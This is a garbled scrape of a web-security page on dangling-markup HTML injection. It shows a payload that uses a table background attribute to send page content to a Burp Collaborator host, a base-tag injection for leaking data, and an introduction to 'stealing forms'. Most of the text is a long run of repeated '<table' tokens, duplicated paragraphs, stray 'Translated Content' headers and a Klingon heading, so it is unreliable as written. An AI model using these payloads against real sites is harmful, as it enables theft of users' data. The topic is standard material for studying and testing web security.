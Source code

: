 **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **`<table`** **
```html
<table background='//your-collaborator-id.burpcollaborator.net?'
```
### Translated Content:

```
### Translated Content:

You could also insert a `<base` tag. All the information will be sent until the quote is closed but it requires some user interaction (the user must click in some link, because the base tag will have changed the domain pointed by the link):

You could also insert a `<base` tag. All the information will be sent until the quote is closed but it requires some user interaction (the user must click in some link, because the base tag will have changed the domain pointed by the link):
```
```html
<base target='        <--- Injected
steal me'<b>test</b>
```
### qo'wI' 'oH

#### Introduction

In this section, we will discuss a technique called "Stealing forms" that can be used to extract sensitive information from web applications. This technique takes advantage of a vulnerability known as "Dangling Markup HTML Scriptless Injection."
